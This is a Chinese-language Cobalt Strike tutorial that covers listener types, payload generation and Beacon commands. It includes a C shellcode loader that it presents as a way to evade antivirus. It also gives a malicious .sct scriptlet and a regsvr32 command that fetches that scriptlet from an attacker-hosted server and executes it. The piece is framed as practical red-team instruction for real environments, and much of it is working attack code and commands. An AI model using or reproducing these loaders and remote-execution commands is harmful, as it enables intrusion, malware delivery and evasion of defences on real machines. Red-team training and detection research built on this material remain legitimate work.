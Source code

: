 # 0x00 Listeners介绍

在本版本Cobalt Strike 3.12中 提供了如图 8种Listeners(监听器)

![Cobalt Strike ](./img/2.1.png)

>windows/beacon_dns/reverse_dns_txt
windows/beacon_dns/reverse_http
windows/beacon_http/reverse_http
windows/beacon_https/reverse_https
windows/beacon_smb/bind_pipe
windows/foreign/reverse_http
windows/foreign/reverse_https
windows/foreign/reverse_tcp

* beacon_x 系列为Cobalt Strike 自身，包括dns,http,https,smb四种方式的监听器
* foreign 系列为外部监听器 通常与MSF或者Armitage联动。

值得一提是在Cobalt Strike 3.13版本增加了一个新的Listeners(windows/beacon_tcp/bind_tcp)  它支持linuxSSH会话。本文不使用3.13版本具体更新内容可以观看[官网](https://blog.cobaltstrike.com/2019/01/02/cobalt-strike-3-13-why-do-we-argue/)


# 0x01 创建一个服务

创建一个服务首先配置一个监听器 本文介绍http(https) 

![Cobalt Strike ](./img/2.2.png)

选择 Packages>Windows Executable

![Cobalt Strike ](./img/2.3.png)

其中可以生成 EXE,DLL 32位系统或者64位，但是大多数我们生成Payload来做免杀

![Cobalt Strike ](./img/2.4.png)

上线成功 在 Event Log处 出现上线信息 一个团队当然离不开交流 当你在Event Log直接输出内容后 全团队可见 ，输入`/msg name xxx` 给指定用户

# 0x02 Beacon

右键目标`interact`来使用`Beacon`，我们用它来执行各种命令，在第一课已经讲到
`help` 获得所有命令及其简介 `help 具体命令` 来获得详细用法。在Cobalt Strike中它的心跳默认是60s 这会让我们执行的命令响应很慢，在下载文件面前更为明显，所以我在测试时会把时间降低一点 。大家可以根据实战环境来调节，建议不要太快，不然流量会相对明显。

![Cobalt Strike ](./img/2.5.png)
在这里我`sleep 5` 同时介绍在beacon中 如果想对目标进行命令管理 需要在前面加上shell 如`shell whoami` 非常简单

# 0x03 Payload Generator

用 Packages>Windows Executable生成的服务很容易被AV干掉，所以我们一般生成shellcode 然后自己写个加载器加载 

打开Packages>Payload Generator 
![Cobalt Strike ](./img/2.6.png)

不得不说Cobalt Strike非常温馨，给我们提供了各个语言的Payload 后期我们讲会讲到如何运用Payload来做一些简单的免杀，这里我们使用 C语言来写一个简单的加载器运行我们的Payload ，C语言写这些确实很简单。

* 用到的编译器是vc++6.0

```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	((void(*)(void))&shellcode)();
}
```

编译记得使用Release模式而不是Debug 生成，其中shellcode加载器方法来自于网络，后期关于免杀将会讲到其他，本文顺带将一下白名单Regsvr32执行。

# 0x04 白名单执行

讲到payload生成服务 不得不讲下关于生成dll文件 利用window的Regsvr32程序

## Regsvr32简介：

Regsvr32命令用于注册COM组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。下面是常用参数，其他参数请见[链接](https://support.microsoft.com/en-us/help/249873/how-to-use-the-regsvr32-tool-and-troubleshoot-regsvr32-error-messages )

```
/u 取消注册

/s 指定 regsvr32 安静运行，在成功注册/反注册DLL文件的前提下不显示结果提示框。

/n 指定不调用 DllRegisterServer。此选项必须与 /i 共同使用。

/i:cmdline 调用 DllInstall 将它传递到可选的 [cmdline]。

```
## 第一种

命令 `regsvr32  c:\artifact.dll` 

![Cobalt Strike ](./img/2.7.png) 

## 第二种
通过 sct 远程执行绕过防病毒这里前提需要将 exe 文件上传到目标主机 本文上传到c:\test.exe
payload.sct文件内容如下:

```
<?XML version="1.0"?>
<scriptlet>
<registration         
progid="Pentest"       
classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="JScript">
 
<![CDATA[   
var r = new ActiveXObject("WScript.Shell").Run("cmd /k c:\\test.exe"); 
]]>
 
</script>
</registration>
</scriptlet>
```

上面代码可以上传到Github等白名单域名 本文使用Cobalt Strike自带的服务来搭建 顺便介绍功能

打开>Web Drive-by>Host File 

![Cobalt Strike ](./img/2.8.png) 

然后执行

`regsvr32 /u /n /s /i:http://192.168.130.130:80/payload.sct scrobj.dll`

执行效果目标机 

![Cobalt Strike ](./img/2.9.png) 


# 0x05 文末

本章感觉有点简单， 在介绍监听器与payload的时候顺带提了下免杀，循序渐进把CS的功能都介绍下，让每一篇都有一些营养，由于本人笔记本不行开2个虚拟机都卡了，所以靶机有所混合，大家不要介意。这次环境的搭建浪费了很多时间。（用时5小时）

### 本文如有错误，请及时提醒，以免误导他人
